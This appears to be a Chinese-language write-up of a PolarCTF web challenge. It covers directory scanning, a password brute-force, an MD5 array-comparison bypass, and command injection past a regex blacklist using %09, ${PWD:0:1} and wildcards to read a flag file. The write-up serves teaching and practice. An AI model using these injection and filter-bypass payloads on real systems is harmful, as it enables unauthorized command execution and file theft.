




打开网页，可发现是一个登录页：


尝试通过dirsearch扫描，得到：
```txt
Target: http://8c9e4bf8-68c2-4c3f-bf12-2b578912c971.game.polarctf.com:8090/

[15:15:01] Starting: 
[15:15:04] 403 -  319B  - /.ht_wsr.txt
[15:15:04] 403 -  319B  - /.htaccess.bak1
[15:15:04] 403 -  319B  - /.htaccess.orig
[15:15:04] 403 -  319B  - /.htaccess.sample
[15:15:04] 403 -  319B  - /.htaccess.save
[15:15:04] 403 -  319B  - /.htaccess_orig
[15:15:04] 403 -  319B  - /.htaccess_extra
[15:15:04] 403 -  319B  - /.htaccess_sc
[15:15:04] 403 -  319B  - /.htaccessBAK
[15:15:04] 403 -  319B  - /.htaccessOLD
[15:15:04] 403 -  319B  - /.htaccessOLD2
[15:15:04] 403 -  319B  - /.htm
[15:15:04] 403 -  319B  - /.html
[15:15:04] 403 -  319B  - /.htpasswd_test
[15:15:04] 403 -  319B  - /.htpasswds
[15:15:04] 403 -  319B  - /.httr-oauth
[15:15:19] 200 -  448B  - /flag.txt
[15:15:20] 200 -    3KB - /index.php
[15:15:20] 200 -    3KB - /index.php/login/
[15:15:28] 403 -  319B  - /server-status/
[15:15:28] 403 -  319B  - /server-status

Task Completed
```
发现`/flag.txt`，访问：
```php
<?php
$original = "flag{polar_flag_in_here}";


$ascii_codes = [117, 115, 101, 114, 110, 97, 109, 101];
$new = "";
foreach ($ascii_codes as $code) {
    $new .= chr($code);
}


function replaceString($original, $new) {
    $temp = str_replace("flag{", "the_", $original);
    $temp = str_replace("polar_flag_in_here}", $new . "_is_polar", $temp);
    return $temp;
}

$result = replaceString($orginal, $ne1w);


echo "flag{polar_flag_in_here}";
?>
```
尝试运行，发现语法错误，修正：
```diff
...
    return $temp;
}

-$result = replaceString($orginal, $ne1w);
+$result = replaceString($original, $new);

-echo "flag{polar_flag_in_here}";
+echo $result;
```
运行，得到：`the_username_is_polar`，提示我们用户名是`polar`。同时，题目附件提供了一个字典[wordlist.txt](/downloads/2025/12/1222535910.txt)，尝试使用BurpSuite爆破：




爆破发现当密码为`6666`的时候会跳转到`/polar.php`：


访问`/polar.php`，得到：
```php
<?php
error_reporting(0);
session_start();
if(isset($_GET['logout'])){
    session_destroy();
    header('Location: index.php');
    exit();
}
// 初始化会话变量
if(!isset($_SESSION['collision_passed'])) {
    $_SESSION['collision_passed'] = false;
}
//想赢的人脸上是没有笑容的 
if(isset($_POST['a']) && isset($_POST['b'])) {
    if($_POST['a'] != $_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo "MD5 不错不错 \n";
        $_SESSION['collision_passed'] = true;
    } else {
        echo "MD5 你不行啊\n";
        $_SESSION['collision_passed'] = false;
    }
}


if(isset($_GET["polar"])){
    if($_SESSION['collision_passed']) {
        if(preg_match('/et|echo|cat|tac|base|sh|tar|more|less|tail|nl|fl|vi|head|env|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["polar"])){
           echo "gun gun !";
        } else {
            echo "polar polar !";
            system($_GET["polar"]);
        }
    } else {
        echo "回去吧，这块不要了\n";
    }
} else {
    show_source(__FILE__);
    echo '<br><br><a href="?logout=1" style="color: #4CAF50; text-decoration: none; font-weight: bold;">回家喽</a>';
}
?>
```
首先进行MD5绕过，传入`a[]=1&b[]=2`即可：
```yaml
POST /polar.php HTTP/1.1
Host: 350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

a[]=1&b[]=2
```
发现服务端返回了一个：
```yaml
Set-Cookie: PHPSESSID=443dctaboep4kh53upn3v2pqal; path=/
```
并且提示`MD5 不错不错`，成功绕过。因为我用的BurpSuite发请求，接下来我打算用普通浏览器做，因此将这个cookie写入浏览器。接着直接访问`/polar.php?polar=`即可传入指令，不需要再绕MD5。  
观察正则匹配规则，发现阻止了很多内容，包括一系列符号。首先尝试通过`export`导出环境变量，发现一个Flag：`flag{7b93dd56-4f33-4738-b916-464a984093b3}`，提交上去发现不对，问客服说这个Flag不对（望天）  
因为过滤了空格，因此可使用`$IFS$1`或者`%09`（Tab）绕过。同时，因为禁用了`/`，因此使用`${PWD:0:1}`（截取PWD环境变量的第一个字符，就是`/`）代替。构造请求：
```txt
http://350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090/polar.php?polar=ls%09${PWD:0:1}
```
得到：
```txt
polar polar !bin dev etc home lib media mnt opt polarflag proc root run sbin srv sys tmp usr var
```
发现Flag文件：`/polarflag`，因为过滤了`fl`，不能直接调用文件名，因此使用`?????????`来通配9个字符的文件。禁用了`cat`，`tail`，`more`，`less`等能打印内容的指令，但是仍然可以使用`sort`之类的指令，也能打印出来：
```txt
http://350eddd0-fd57-4dd0-94d3-c0c8888afd7d.game.polarctf.com:8090/polar.php?polar=sort%09${PWD:0:1}?????????
```
得到Flag：`flag{polarctf1314inwebgame}`